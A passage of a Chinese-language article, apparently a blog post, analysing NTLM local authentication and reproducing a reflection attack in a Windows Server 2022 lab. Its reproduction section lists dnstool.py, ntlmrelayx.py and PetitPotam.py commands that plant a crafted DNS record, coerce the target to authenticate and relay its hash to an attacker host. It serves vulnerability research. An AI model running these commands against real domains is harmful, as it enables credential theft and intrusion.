 在上述   
0x01  
 章节中我们已经介绍了标准认证流程，从   
sourceforge  
 的   
davenport  
 项目中可以看到关于  
NTLM  
 认证的说明。    
  
服务器会检查客户端发送的域和工作站信息，如果确定客户端和服务器是同一台计算机，那么服务器将通过在   
Type 2  
 消息中设置   
Negotiate Local Call  
 标志来启动本地身份验证。    
  
如果启用本地身份验证，客户端首先会检查服务器的安全上下文。验证不通过就按照标准认证流程进行，而如果验证通过，那么客户端会将自己的令牌/凭据添加到服务器的安全上下文中（通过   
Reserved  
 中的   
Context ID  
 定位上下文），最终生成一个完全为空的   
Type 3  
 消息（安全缓冲区、用户名、域名和工作站名等都为空），服务器将会使用添加的令牌执行进一步的操作。    
  
![](https://mmbiz.qpic.cn/mmbiz_png/rA9dDxDOarRr1pmAcbxzMmIP8MCiaPx056L7DaialCBVnXeoHfzb3uDhgYzyaAtcWtwG2DnzR4ela6fVvFcp2beg/640?wx_fmt=png&from=appmsg "")  
  
本地身份验证的整个流程都发生在   
lsass.exe  
 的进程内部，这样可以获得更好的性能以及避免网络传输Hash。  
### 0x03 漏洞复现192.168.214.134（域控机 Windows server 2022）192.168.214.135（目标机 Windows server 2022）192.168.214.138（攻击机 Kali Linux）# 当攻击机为 Windows 的时候，会存在 445 端口占用的问题导致监听失败# 实战当中需要进行一次流量转发或者使用内网 Linux 主机进行 relay 攻击创建一个特殊的 DNS记录 ，指向攻击者的机器 192.168.214.138，使用 --action modify 覆盖写入。python3 dnstool.py -u 'luckytom.com\domainuser01' -p 'User01!@#' -r badtom1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -d 192.168.214.138 --action modify 192.168.214.134开启监听，建议使用 Impacket v0.13.0.dev0 进行攻击。python3 ntlmrelayx.py -t 192.168.214.135 -smb2support强制目标按照 DNS记录 发起 NTLM 认证。python3 PetitPotam.py -d luckytom.com -u domainuser01 -p 'User01!@#' badtom1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA 192.168.214.135当攻击完成后，ntlmrelayx.py 即可收到目标主机的 Hash 信息。使用 wireshark 进行流量监听，可以看到 NTLMSSP_NEGOTIATE_LOCAL_CALL (0x4000) 在 Negotiate 中被设置，并且 Reserved 的值不为 0。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rA9dDxDOarRr1pmAcbxzMmIP8MCiaPx05FI16NLTvlfWfPjEJGSFomibCTBQjxxwzzuxTEVnDwQib3p2fRuJFdgYA/640?wx_fmt=png&from=appmsg "")  
  
在上一篇文章中，我们已经分析过服务器判断本地身份验证的逻辑，如果客户端在协商消息中提供的域名和机器名与本地域名和机器名匹配，则这是本地身份验证情况。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rA9dDxDOarRr1pmAcbxzMmIP8MCiaPx05cfzGMOm8VLgBPqlloJYVmstibY9fBDuyDJOrc0ibQnk3KNwShrBxb1Fw/640?wx_fmt=png&from=appmsg "")  
  
在   
wireshark  
 监听到的流量中也能看到消息中包含了域名和机器名。  
  